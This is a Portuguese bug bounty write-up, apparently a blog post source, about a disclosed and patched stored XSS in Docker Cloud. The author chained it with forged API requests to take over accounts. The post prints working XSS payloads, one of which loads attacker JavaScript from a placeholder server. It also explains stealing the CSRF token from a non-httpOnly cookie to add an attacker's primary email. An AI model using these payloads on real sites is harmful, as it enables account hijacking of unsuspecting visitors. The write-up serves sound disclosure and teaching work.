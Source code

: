 ```yaml
---
layout: post
title:  "Bug Bounty 00 - Full Account Takeover Docker Cloud (My First CSRF)"
date:   2019-05-15 11:08:00
categories: All
img: bug_bounty.png
---
```

<p align="justify">
Fala galera, neste post irei falar sobre uma vulnerabilidade que encontrei no Docker Cloud (<a href="https://cloud.docker.com/" target="_blank">Docker Cloud</a>). Esta falha já foi corrigida e tive permissão de falar sobre ela citando o vendor, então vamos la :)
</p>

<p align="justify">
Bom, a vulnerabilidade que está no título foi o resultado final de uma cadeia (chain) de outras vulnerabilidades que encontrei inicialmente no domínio do Docker Cloud.
</p>

<p align="justify">
Enquanto navegava pelos repositórios do Docker Cloud, percebi que o usuário podia inserir uma  breve e também uma completa descrição a respeito do projeto. Decidi inserir algumas tags na descrição completa só para teste mesmo (não esperava que realmente iria acontecer), comecei com o famoso <code>&lt;script&gt;alert(document.domain);&lt;/script&gt;</code> e para minha não surpresa, não ocorreu nada.
<br>
<br>
Decidi então inserir uma tag de imagem com um evento Javascript:
<br>
<code>&lt;img src="x" onerror="alert(document.domain)"/&gt;</code>
<br>
salvei e quando a descição foi atualizada, boooommm :)
<br>
<img src="/images/bug_bounty/bb00-00.png"/>
</p>

<p align="justify">
Neste ponto, já havia um XSS Stored (Armazenado), pois qualquer usuário que visitasse o meu repositório com o código iria se deparar com o alert(document.domain) sendo executado.
<br>
<br>
Foi então que tive uma ideia de escalar ainda mais a vulnerabilidade, então fui procurar mais sobre e me deparei com o CSRF (Cross Site Request Forgery), que é um tipo de ataque onde você força o usuário a relizar ações forjadas (o usuário acha que está realizando uma ação, mas na verdade está realizando outra). Descobri que para isso eu teria que carregar um script externo, e como a tag script não estava disponível, foi necessário utilizar os eventos JS das tags HTML :)
<br>
<br>
Usei o seguinte payload:
<br>
<code>&lt;img src="x" onerror="var script = document.createElement('script'); script.src = 'IP_SERVIDOR/reset.js'; document.getElementsByTagName('head')[0].appendChild(script);"/&gt;</code> 
<br>
que tem como objetivo inserir um novo atributo do tipo javascript no head do HTML da página que será carregado a partir do arquivo <i>reset.js</i> que no caso é o arquivo js que contém o código do exploit.
</p>

<p align="justify">
Para realizar as requisições, era necessário ter o <b>XCSRF-Token</b> do usuário e também que ele estivesse no domínio cloud.docker.com (pode ser acessado pelo domínio hub.docker.com também :) ), pois apenas ele tinha permissão de realizar as requisições para a api.
<br>
<br>
Estas requisições, são as responsáveis pela inserção do email do atacante na conta do usuário e pela definição deste email como primário (quando o usuário reseta a senha o link é enviado para o email primário), portanto o usuário pode ter vários emails, mas o link só será enviado para o endereço de email primário.
</p>

<p align="justify">
Então, primeiramente para ter acesso ao XCSRF-Token do usuário, foi necessário apenas obtê-lo pelo document.cookie (não estava com a flag httpOnly habilitada).
<br>
<br>
E para realizar as requisições, primeramente, no exploit verificava se a URL atual que o usuário estava acessando o repositório era cloud.docker.com, caso fosse positivo ele apenas realizaria as requisições, caso contrário ele redirecionava o usuário para o domínio permitido para realizar as requisições (cloud.docker.com).
</p>

<p align="justify">
Tendo tudo isso em mãos, era necessário apenas realizar as requisições para adicionar o email do atacante na conta do usuário e setar como email primário :)
<br>
<br>
Vale lembrar que o email que o atacante utilizaria não deveria estar cadastrado em nenhuma outra conta :)
<br>
<br>
Tendo efetuado com sucesso o ataque, o atacante teria acesso permanente à conta do usuário, pois mesmo que fosse enviado um link para resetar a senha, seria enviado para o email primário da conta (no caso o do atacante).
</p>

<p align="justify">
Então resumindo, foi utilizado um XSS Stored encadeado com um CSRF para ter acesso permanente à conta de qualquer usuário que acessasse o repositório malicioso :).
</p>

<p align="justify">
Abaixo há a PoC da vulnerabilidade:
<br>
<iframe width="560" height="315" src="https://www.youtube.com/embed/wHWfAo76xMY" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
</p>

<br>

<p align="justify">
Quero agradecer ao <a href="https://twitter.com/K33r0k" target="_blank">K33r0k</a> por ter me ajudado a entender mais sobre CSRF :)
</p>

<br>

<p align="justify">
Bom galera, espero que eu tenha passado de forma clara essa resolução da vulnerabilidade encontrada no docker, como já disse ela foi corrigida, já fui recompensado e também fui permitido de realizar o disclosure.
<br>
<br>
Irei trazer mais resoluções ao longo do tempo.
<br>
<br>
Antes que eu esqueça, o exploit pode ser encontrado no meu github: <a href="https://github.com/vitor-fernandes/exploits/blob/master/exploitDocker.js" target="_blank" style="color: blue"><b>Exploit Cloud Docker</b></a> 
</p>